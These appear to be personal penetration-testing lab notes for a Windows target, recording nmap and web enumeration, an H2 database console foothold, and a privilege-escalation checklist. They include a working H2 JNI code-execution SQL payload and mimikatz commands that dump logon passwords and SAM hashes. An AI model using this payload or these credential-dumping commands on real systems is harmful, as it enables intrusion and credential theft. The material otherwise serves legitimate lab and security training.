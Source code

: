 ### Enumeration
```
IP=192.168.158.66
sudo nmap -sU $IP
sudo nmap -p- -vv $IP
sudo nmap -p80,135,139,445,7680,8082 -A $IP
```
### Ports 
- 80
	- Microsoft IIS httpd 10.0
- 135
	- RPC
- 139
	- RPC
- 445
	- microsoft-ds
- 7680
	- pando-pub
- 8082
	- blackice-alerts
	- http H2 database http console
- OS: Windows XP?
### Foothold
- 445
	- smbclient -N -L //$IP
		- access denied
	- nmap --script smb-vuln* -p135,139,445 $IP
		- no vulns found
- 80
	- ![[Pasted image 20240703102821.png]]
	- dirsearch -u http://$IP
		- `/html  /text /images  /help`
		- /text
			- 403 forbidden
		- /images
			- 403 forbidden
		- /help
			- 403 forbidden
		- /html
			- 403 forbidden
	- dirsearch -u http://$IP/html
		- ![[Pasted image 20240703103509.png]]
	- ffuf -w /usr/share/seclists/Discovery/DNS/n0kovo_subdomains.txt -u http://192.168.158.66/FUZZ
		- /javadoc
- 8082
	- ![[Pasted image 20240703102813.png]]
	- dirsearch -u http://$IP:8082
		- nothing
	- Hit test then connect  >  connects
		- ![[Pasted image 20240703104651.png]]
		- Can run sql commands
			- Databases
				- public
				- information_schema
		- Version H2 1.4.199 (2019-03-13)
			- JNI execution - exploit-db 49384
			- Ran commands in 3 parts. Look like we can run commands
			- `CREATE ALIAS IF NOT EXISTS JNIScriptEngine_eval FOR "JNIScriptEngine.eval";
			`CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("whoami").getInputStream()).useDelimiter("\\Z").next()');
			![[Pasted image 20240703105744.png]]
### PE
#### Linux
- USERNAME
	- id
	- sudo -l
	- uname -a
	- getcap -r / 2>/dev/null
	- suid
		- find / -type f -perm -04000 -ls 2>/dev/null
	- linpeas
#### Windows
- USERNAME
	- whoami /all
	- systeminfo
	- history
		- (Get-PSReadLineOption).HistorySavePath
			- type PATH
	- Unquoted
		- cmd
			- wmic service get name,pathname | findstr /i /v "C:\Windows\\" | findstr /i /v """
		- PS1
			- Get-CimInstance -ClassName win32_service | Select Name,State,PathName
		- icacls Filepath before .exe
			- Looking for W or F
	- mimkatz
		- mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
		- mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" "exit"
### Credentials
### Lessons Learned